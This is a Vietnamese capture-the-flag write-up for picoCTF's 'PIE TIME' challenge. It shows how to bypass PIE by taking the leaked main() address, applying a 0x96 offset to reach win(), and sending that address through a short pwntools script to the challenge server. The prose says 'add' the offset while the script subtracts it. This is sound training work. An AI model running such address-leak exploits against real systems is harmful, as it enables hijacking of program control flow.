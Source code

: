 # PIE TIME
Challenge cung cấp file elf cùng với mã nguồn. Mục tiêu là xâm nhập vào hàm `win()` để in ra flag.

`file` check:
![alt text](image.png)
<br>
`checksec`:
![alt text](image-1.png)
<br>
Khi chạy chương trình, ta sẽ được cung cấp địa chỉ của hàm `main()`. Sau đó ta sẽ được yêu cầu nhập vào một xâu hex, ta sẽ được nhảy tới địa chỉ mà ta vừa nhập vào. Như vậy, mục tiêu là bypass cơ chế `PIE` để truy cập vào hàm `win()`, từ đó lấy được thông tin `flag` <br>
`info functions`:
![alt text](image-2.png)
Dùng `gdb` để xem địa chỉ tương đối của các hàm, ta dễ dàng tính ra offset giữa hàm `main()` và `win()` bằng `0x96`. <br>
Tới giờ thì mọi việc rất đơn giản, chỉ cần lấy địa chỉ hàm `main()` đã được cấp sẵn, sau đó cộng với `offset` là ra được địa chỉ hàm `win()`. Nhập địa chỉ này vào và ta sẽ có được flag. <br>
Ở đây tôi đã viết script để tự động hoá quá trình này:

```python
from pwn import *

host = "rescued-float.picoctf.net"
port = 52331

# p = process("./vuln")
p = remote(host, port)

offset = 0x96

p.recvuntil(b'Address of main: ', drop=True)
main_addr = p.recvuntil(b'\n', drop=True)
win_addr = int(main_addr.decode(), 16) - offset
print(main_addr)
print(hex(win_addr))

payload= hex(win_addr)

p.sendline(payload)
```
![alt text](image-3.png)